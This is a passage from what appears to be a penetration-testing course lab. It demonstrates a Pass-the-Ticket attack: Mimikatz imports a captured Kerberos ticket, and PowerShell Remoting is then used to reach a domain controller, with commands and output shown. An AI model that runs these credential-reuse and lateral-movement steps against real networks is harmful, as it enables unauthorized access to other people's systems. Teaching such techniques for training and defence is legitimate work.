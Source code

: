 ## Pass The Ticket with PowerShell Remoting (Windows)

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer. Administrators often use PowerShell Remoting to manage remote computers on the network. Enabling PowerShell Remoting creates both HTTP and HTTPS listeners. The listener runs on standard port TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

Suppose we find a user account that doesn't have administrative privileges on a remote computer but is a member of the Remote Management Users group. In that case, we can use PowerShell Remoting to connect to that computer and execute commands.

---

## Mimikatz - PowerShell Remoting with Pass the Ticket

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Let's open a new `cmd.exe` and execute mimikatz.exe, then import the ticket we collected using `kerberos::ptt`. Once the ticket is imported into our cmd.exe session, we can launch a PowerShell command prompt from the same cmd.exe and use the command `Enter-PSSession` to connect to the target machine.

#### Mimikatz - Pass the Ticket for Lateral Movement.

```cmd-session
C:\tools> mimikatz.exe 
```
```cmd-session
mimikatz # privilege::debug
```
```cmd-session
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```
```cmd-session
mimikatz # exit
Bye!

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```
## Rubeus - PowerShell Remoting with Pass the Ticket
